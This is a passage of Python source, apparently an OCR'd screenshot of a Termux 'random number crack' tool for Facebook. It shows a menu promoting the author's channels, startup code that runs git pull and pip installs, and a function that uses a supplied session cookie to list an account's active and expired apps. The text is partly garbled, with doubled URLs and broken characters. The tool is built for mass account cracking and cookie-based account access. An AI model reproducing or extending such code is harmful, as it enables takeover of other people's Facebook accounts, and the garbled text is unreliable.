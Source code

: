 
def o():
    os.system('clear')
    jalan(logo)
    jalan('\33[37;41m\t RANDOM NUMBER CRACK\33[0;m')
    print('')
    jalan('\x1b[1;32m [1]\x1b[1;33m RANDOM CRACK ')
    jalan('\x1b[1;32m [2] \x1b[1;32mCONTACT ME ON FACEBOOK')
    jalan(' \x1b[1;32m[3] \x1b[1;32mSUBSCRIBE MY CHANNEL')
    jalan(' \x1b[1;32m[4] \x1b[1;32mFOLLOW FACEBOOK PAGE')
    jalan(' \x1b[1;32m[00] \x1b[1;31mEXIT')
    opt = input('\n   \x1b[1;32m CHOOSE OPTION >>> ')
    if opt == '1':
        i()
    if opt == '2':
        os.system('xdg-open https://https://https://www.facebook.com/profile.php?id=100092174587959')
        return None
    if opt == '3':
        os.system('xdg-open https://www.youtube.com/@BD-Termux-Hackr-999')
        return None
    if opt == '4':
        os.system('xdg-open https://www.youtube.com/@BD-Termux-Hackr-999https://www.youtube.com/@BD-Termux-Hackr-999')
        
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')

def cek_apk(session,coki):
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[ðŸŽ®] %s \x1b[1;95m â˜† Your Active Apps â˜†     :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://free.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[ðŸŽ®] %s \x1b[1;95m â—‡ Your Expired Apps â—‡    :{WHITE}'%(M))